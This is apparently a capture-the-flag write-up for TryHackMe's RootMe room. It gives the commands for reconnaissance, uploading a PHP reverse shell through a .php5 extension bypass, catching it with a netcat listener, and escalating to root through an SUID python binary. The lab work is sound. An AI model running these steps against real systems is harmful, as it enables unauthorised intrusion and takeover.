









# 🧪 TryHackMe — RootMe

**Platform:** TryHackMe  
**Room:** RootMe  
**Difficulty:** Easy  
**Category:** Web Exploitation · Privilege Escalation  
**Status:** Completed ✅



---

## 🎯 Objective

The goal of this lab was to perform reconnaissance, exploit a vulnerable web application to gain initial access, and escalate privileges to obtain root access on the target system.

---

## 🔎 Step 1 — Reconnaissance

### Tool: Nmap

```bash
nmap -sV -T4 -O -F --version-light <TARGET_IP>
```



### Discovered services:

- SSH (22)
- HTTP (80 — Apache 2.4.41
- Operating System: Linux

---

## 📁 Step 2 — Web Enumeration
Since HTTP was open, directory brute-forcing was performed.

### Tool: Gobuster

```bash
gobuster dir -u http://<TARGET_IP> -w raft-large-directories.txt
```



### Result:
- Hidden directory discovered: /panel/

---

## 🧨 Step 3 — File Upload Exploitation

The /panel/ directory contained a file upload form.
- Direct PHP uploads were blocked
- File extension bypass was used (.php5)
- A PHP reverse shell was uploaded successfully

---

## 🖥️ Step 4 — Initial Access (Reverse Shell)
A Netcat listener was started on the attacker machine:
```bash
sudo nc -nlvp 443
```


After triggering the uploaded file, a reverse shell was obtained.



---

## 🧍 Step 5 — User Flag

The shell was upgraded using Python:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


The user flag was located and retrieved:
```bash
find / -type f -name user.txt 2>/dev/null
cat /var/www/user.txt
```

---

## 🚀 Step 6 — Privilege Escalation
SUID files were enumerated:

```bash
find / -user root -perm /4000 2>/dev/null
```
The file /usr/bin/python had the SUID bit set.

Using **GTFOBins**, privileges were escalated:
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


Root access obtained.

Reading the last flag using cat inside root folder.

```bash
cd root
ls
cat root.txt
```


---

## 🏁 Final Result

- ✅ User access obtained
- ✅ Privilege escalation successful
- ✅ Root flag captured

---

## 🧠 Key Learnings

- Service enumeration with Nmap
- Web directory discovery
- File upload bypass techniques
- Reverse shell handling
- Linux privilege escalation via SUID binaries

---

## ⚠️ Disclaimer

This lab was completed in a **controlled and legal environment (TryHackMe)** for educational purposes only.


